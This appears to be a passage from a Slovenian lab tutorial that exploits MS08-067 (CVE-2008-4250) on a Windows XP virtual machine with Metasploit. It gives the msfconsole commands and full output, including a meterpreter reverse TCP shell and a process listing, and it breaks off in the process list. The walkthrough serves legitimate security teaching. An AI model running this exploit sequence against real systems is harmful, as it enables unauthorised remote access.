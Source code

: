     msfconsole

    set RHOSTS 10.0.2.4

Izkoristili bomo ranljivost [CVE-2008-4250](https://www.cvedetails.com/cve/CVE-2008-4250/), tako da poiščemo primerni napad z ukazom `search`, preverimo ali je računalnik ranljiv z ukazom `rcheck` in nato izvedemo napad z ukazom `exploit`.

    msf6 > search ms08-067

    Matching Modules
    ================

        #  Name                                 Disclosure Date  Rank   Check  Description
        -  ----                                 ---------------  ----   -----  -----------
        0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption


    Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/ms08_067_netapi

    msf6 > use 0
    [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
    msf6 exploit(windows/smb/ms08_067_netapi) > rcheck
    [*] Reloading module...
    [+] 10.0.2.4:445 - The target is vulnerable.
    msf6 exploit(windows/smb/ms08_067_netapi) > exploit

    [*] Started reverse TCP handler on 10.0.2.15:4444 
    [*] 10.0.2.4:445 - Automatically detecting the target...
    [*] 10.0.2.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
    [*] 10.0.2.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
    [*] 10.0.2.4:445 - Attempting to trigger the vulnerability...
    [*] Sending stage (175686 bytes) to 10.0.2.4
    [*] Meterpreter session 1 opened (10.0.2.15:4444 -> 10.0.2.4:1049) at 2023-05-09 14:36:39 +0200

    meterpreter > 

Sedaj smo z ukazno vrstico povezani v navidezni računalnik `WindowsXP`. Z ukazom `ps` lahko izpišemo vse procese, ki trenutno tečejo na sistemu.

    meterpreter > ps

    Process List
    ============

    PID   PPID  Name              Arch  Session  User                         Path
    ---   ----  ----              ----  -------  ----                         ----
    0     0     [System Process]
    4     0     System            x86   0        NT AUTHORITY\SYSTEM
    176   984   wuauclt.exe       x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\wuauclt.
                                                                            exe
    508   4     smss.exe          x86   0        NT AUTHORITY\SYSTEM          \SystemRoot\System32\smss.ex
                                                                            e
    572   508   csrss.exe         x86   0        NT AUTHORITY\SYSTEM          \??\C:\WINDOWS\system32\csrs
                                                                            s.exe
    596   508   winlogon.exe      x86   0        NT AUTHORITY\SYSTEM          \??\C:\WINDOWS\system32\winl
                                                                            ogon.exe
    640   596   services.exe      x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\services
                                                                            .exe